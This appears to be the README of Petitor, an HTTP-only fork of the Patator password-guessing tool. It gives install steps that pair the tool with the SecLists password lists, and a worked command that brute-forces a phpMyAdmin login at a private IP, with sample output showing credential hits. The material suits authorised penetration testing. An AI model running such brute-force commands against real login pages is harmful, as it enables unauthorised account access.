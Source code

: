 # Petitor (work in progress!)

Petitor is a stripped-down fork of Patator by lanjelot, exclusively focused on HTTP fuzzing.
Patator was written out of frustration from using Hydra, Medusa, Ncrack, Metasploit modules and Nmap NSE scripts for password guessing attacks.

## Differences from Patator

- Module functionality dropped. http_fuzz only.
- Windows support dropped. Might still work. Not tested.
- Compatible with recent Python versions.

## To-do

- Break down huge monolithic codebase in `petitor.py` into logically organized modules.
- Refactor for readability and PEP-8 compliance.
- Lots of testing.

## Install

```
git clone https://github.com/n0kovo/petitor.git
git clone https://github.com/danielmiessler/SecLists.git
docker build -t petitor petitor/
docker run -it --rm -v $PWD/SecLists/Passwords:/mnt petitor dummy_test data=FILE0 0=/mnt/richelieu-french-top5000.txt
```

## Usage Example

* HTTP : Brute-force phpMyAdmin logon

```
$ petitor url=http://10.0.0.1/pma/index.php method=POST body='pma_username=COMBO00&pma_password=COMBO01&server=1&target=index.php&lang=en&token=' 0=combos.txt before_urls=http://10.0.0.1/pma/index.php accept_cookie=1 follow=1 -x ignore:fgrep='Cannot log in to the MySQL server' -l /tmp/qsdf
11:53:47 petitor    INFO - Starting Patator v0.7-beta (http://code.google.com/p/patator/) at 2014-08-31 11:53 EST
11:53:47 petitor    INFO -
11:53:47 petitor    INFO - code size:clen       time | candidate                          |   num | mesg
11:53:47 petitor    INFO - -----------------------------------------------------------------------------
11:53:48 petitor    INFO - 200  49585:0        0.150 | root:p@ssw0rd                      |    26 | HTTP/1.1 200 OK
11:53:51 petitor    INFO - 200  13215:0        0.351 | root:                              |    72 | HTTP/1.1 200 OK
^C
11:53:54 petitor    INFO - Hits/Done/Skip/Fail/Size: 2/198/0/0/3000, Avg: 29 r/s, Time: 0h 0m 6s
11:53:54 petitor    INFO - To resume execution, pass --resume 15,15,15,16,15,36,15,16,15,40
```

Payload #72 was a false positive due to an unexpected error message:

```
$ grep AllowNoPassword /tmp/qsdf/72_200\:13215\:0\:0.351.txt
... class="icon ic_s_error" /> Login without a password is forbidden by configuration (see AllowNoPassword)</div><noscript>
```
